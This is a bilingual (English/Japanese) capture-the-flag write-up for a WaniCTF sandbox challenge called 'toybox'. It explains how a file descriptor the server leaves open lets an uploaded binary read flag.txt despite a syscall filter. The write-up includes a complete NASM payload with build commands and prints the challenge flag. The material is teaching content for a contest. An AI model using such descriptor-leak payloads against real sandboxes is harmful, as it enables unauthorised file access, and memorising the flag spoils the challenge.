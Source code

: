 ```yaml
---
title: toybox
level: 4
flag: FLAG{d1d_u_kn0w_O_CL03X3C?}
writer: ciffelia
---
```


# toybox

> Escape from Toybox
>
> http://chal-lz56g6.wanictf.org:1850/

## Solution

日本語版は英語版の後に記載しています。Japansese follows English.

In this challenge, the executable file uploaded by the user is executed on the server, but the system calls that can be invoked are restricted. While `read` and `write` are allowed, `open` cannot be called. This makes it seem like `flag.txt` cannot be read.

However, by examining the source code, it is evident that `flag.txt` is opened at line 23 in `server.c`. The opened file remains accessible even after the `exec` execution unless it is explicitly closed. Therefore, the user's code can use this file descriptor to read the flag. Upon experimentation, it is found that the value of this file descriptor is 7. Therefore, by creating a file that reads data from FD 7 and writes it to stdout, the flag can be retrieved.

The executable file is subject to the following constraints:

1. The file size must be a maximum of 10KB.
1. Only 10 specific system calls, such as `read` and `write`, can be invoked. If any other system call is attempted, the program will terminate.

If an executable file is created using high-level languages like C, its size will easily exceed 10KB. Even if the size restriction is met, various system calls would be invoked before the main function is executed, causing the program to terminate.

These constraints can be circumvented by writing assembly code. By compiling and executing the following code, the flag can be obtained.

```nasm
    global _start

    section .text
_start:
    ; read(7, buf, 256)
    mov rax, 0      ; syscall #0 (read)
    mov rdi, 7      ; from fd 7
    mov rsi, buf    ; to buf
    mov rdx, 256    ; number of bytes
    syscall

    ; write(1, buf, 256)
    mov rax, 1      ; syscall #1 (write)
    mov rdi, 1      ; to fd 1 (stdout)
    mov rsi, buf    ; from buf
    mov rdx, 256    ; number of bytes
    syscall

    ; exit(0)
    mov rax, 60     ; syscall #60 (exit)
    mov rdi, 0      ; code 0
    syscall

    section .bss
buf:
    resb 256
```

```sh
nasm -f elf64 payload.asm
ld --strip-all -o payload payload.o
```

## 解法

この問題ではユーザーがアップロードした実行可能ファイルがサーバーで実行されますが、呼び出し可能なシステムコールが制限されています。`read`や`write`は呼び出しが許可されていますが、`open`は呼び出すことができません。そのため`flag.txt`を読み出すことができないように見えます。

しかし、ソースコードを確認すると`server.c`の23行目で`flag.txt`を開いています。開かれたファイルは明示的に閉じない限り`exec`実行後も利用可能です。そのため、ユーザーのコードからこのファイルディスクリプタを利用してフラグを読み出すことができます。実験してみると、このファイルディスクリプタの値は`7`であることがわかります。そのため、FD 7からデータを読み出しstdoutに書き込むファイルを作成すればフラグが得られそうです。

ただし、この実行可能ファイルには以下のような制約が課せられます。

1. ファイルは最大で10KBまで。
2. 呼び出し可能なシステムコールは`read`, `write`などの10個のみで、それ以外の呼び出しを試みるとプログラムが終了される。

C言語などの高級言語を用いて実行可能ファイルを作成した場合、サイズは優に10KBを超えます。仮にサイズ制限をクリアしたとしても、main関数が実行される前に様々なシステムコールが呼ばれるため、プログラムが終了されてしまうでしょう。

これらの制約はアセンブリを書くことで回避できます。以下のコードをコンパイルしサーバー上で実行させるとフラグが得られます。

```nasm
    global _start

    section .text
_start:
    ; read(7, buf, 256)
    mov rax, 0      ; syscall #0 (read)
    mov rdi, 7      ; from fd 7
    mov rsi, buf    ; to buf
    mov rdx, 256    ; number of bytes
    syscall

    ; write(1, buf, 256)
    mov rax, 1      ; syscall #1 (write)
    mov rdi, 1      ; to fd 1 (stdout)
    mov rsi, buf    ; from buf
    mov rdx, 256    ; number of bytes
    syscall

    ; exit(0)
    mov rax, 60     ; syscall #60 (exit)
    mov rdi, 0      ; code 0
    syscall

    section .bss
buf:
    resb 256
```

```sh
nasm -f elf64 payload.asm
ld --strip-all -o payload payload.o
```
